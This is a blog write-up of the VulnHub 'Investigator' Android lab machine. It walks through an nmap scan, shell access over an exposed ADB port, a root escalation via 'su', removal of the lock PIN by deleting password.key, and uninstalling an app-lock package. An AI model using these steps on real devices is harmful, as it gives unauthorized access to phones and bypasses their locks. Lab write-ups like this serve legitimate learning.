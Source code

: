 ```yaml
---
title: 靶机日记 三 | Investigator

categories:
  - Technical
tags:
  - Crack
date: 2020-08-21 19:35:43
---
```


You can find the machine there > [Investigator](https://www.vulnhub.com/entry/investigator-1,504/)

![Banner](http://leiblog.wang/static/image/2020/8/q69oEf.jpg)

This is my first time to hack a Android box. Actually , i have no experience in Android development , but this is a beginner Vuln target machine, i say to myself, it's a great way to learn something new!

<!-- more -->

![](http://leiblog.wang/static/image/2020/8/QxnxDS.png)

**start always with nmap**

```zsh
Princeling-Mac at ~ ❯ nmap -sC -sV -p- -oN nmap/initial 192.168.56.103
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 01:52 EEST
Nmap scan report for android-25abe18209db8058.zte.com.cn (192.168.1.10)
Host is up (0.00025s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
5555/tcp  open  adb     Android Debug Bridge device (name: android_x86; model: VMware Virtual Platform; device: x86)
8080/tcp  open  http    PHP cli server 5.5 or later
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Welcome To  UnderGround Sector
22000/tcp open  ssh     Dropbear sshd 2014.66 (protocol 2.0)
| ssh-hostkey:
|   2048 19:e2:9e:6c:c6:8d:af:4e:86:7c:3b:60:91:33:e1:85 (RSA)
|_  521 46:13:43:49:24:88:06:85:6c:75:93:73:b5:1d:8f:28 (ECDSA)
MAC Address: 00:0C:29:37:42:7C (VMware)
Service Info: OSs: Android, Linux; CPE: cpe:/o:linux:linux_kernel
```

Tcp port 5555 is an Android Debug service, we can use adb tools to exploit it.

**expliot with adb service**

```zsh
Princeling-Mac at ~ ❯ adb connect 192.168.56.103
connected to 192.168.56.103:5555
Princeling-Mac at ~ ❯ adb shell
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)@x86:/ $
```

We can even get root shell easily , just type in 'su'.

```zsh
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)@x86:/ $ su
uid=0(root) gid=0(root)@x86:/ # find / -type d -name root
find: /data/property/persist.sys.dalvik.vm.lib: Input/output error
/data/root
```

And get the first key!

```zsh
1|uid=0(root) gid=0(root)@x86:/ # cd /data/root/
uid=0(root) gid=0(root)@x86:/data/root # ls
flag.txt
uid=0(root) gid=0(root)@x86:/data/root # cat flag.txt
Great Move !!!

Itz a easy one right ???

lets make this one lil hard


You flag is not here  !!!


Agent "S"   Your Secret Key ---------------->259148637
uid=0(root) gid=0(root)@x86:/data/root #
```

`259148637`is wrong pin, but we can remove pin with root shell.

```zsh
uid=0(root) gid=0(root)@x86:/data/system # cd /data/system
uid=0(root) gid=0(root)@x86:/data/system # rm password.key
```

Reboot the box, now we can see there is no PIN, If we go to open an app asks for a pattern.

![](http://leiblog.wang/static/image/2020/8/mxV4cO.png)

Unlock it.

```zsh
uid=0(root) gid=0(root)@x86:/ # pm list packages | grep lock
package:com.domobile.applockwatcher
package:bong.android.androidlock
package:com.martianmode.applock
package:com.android.deskclock
promote at ~ ❯ adb uninstall com.martianmode.applock
Success
```

:(((()))) android box is hard to use !!!
